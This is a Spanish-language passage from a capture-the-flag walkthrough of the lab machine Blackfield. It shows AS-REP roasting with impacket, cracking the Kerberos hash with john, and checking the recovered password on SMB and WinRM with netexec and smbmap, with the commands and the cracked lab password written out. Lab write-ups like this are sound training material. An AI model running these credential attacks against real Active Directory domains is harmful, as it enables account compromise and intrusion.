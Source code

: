 ### AS-REP Roast Attack (GetNPUsers)

Debido que disponemos de una lista potencial de usuarios, probaremos a realizar un **AS-REP Roast Attack** para intentar obtener un Ticket Granting Ticket (TGT) para luego crackearlo de manera offline.

```bash
impacket-GetNPUsers -no-pass -usersfile valid_users.txt BLACKFIELD.local/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/1701_vmware_8fx1J8tR3R.png" alt=""><figcaption></figcaption></figure>

### Cracking Hashes

De los TGT obtenidos procederemos a crackear los hashes con **john** para obtener la contraseña del usuario.

```bash
john --format=krb5asrep hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/1702_vmware_NL4tlyFqi2.png" alt=""><figcaption></figcaption></figure>

Validaremos con **netexec** de autenticarnos al SMB y de comprobar si con estas credenciales podemos acceder al WinRM. Verificamos que las credenciales son válidas, pero no tenemos de permisos suficientes para acceder remotamente al equipo.

```bash
netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'

netexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

<figure><img src="../../../.gitbook/assets/1703_vmware_lM9s1ARPxb.png" alt=""><figcaption></figcaption></figure>

Enumeraremos con este nuevo usuario los recursos compartidos del SMB para ver si disponemos de más acceso del que ya disponíamos con el usuario "guest".

```bash
smbmap -H 10.10.10.192 --no-banner -u support -p '#00^BlackKnight'
```
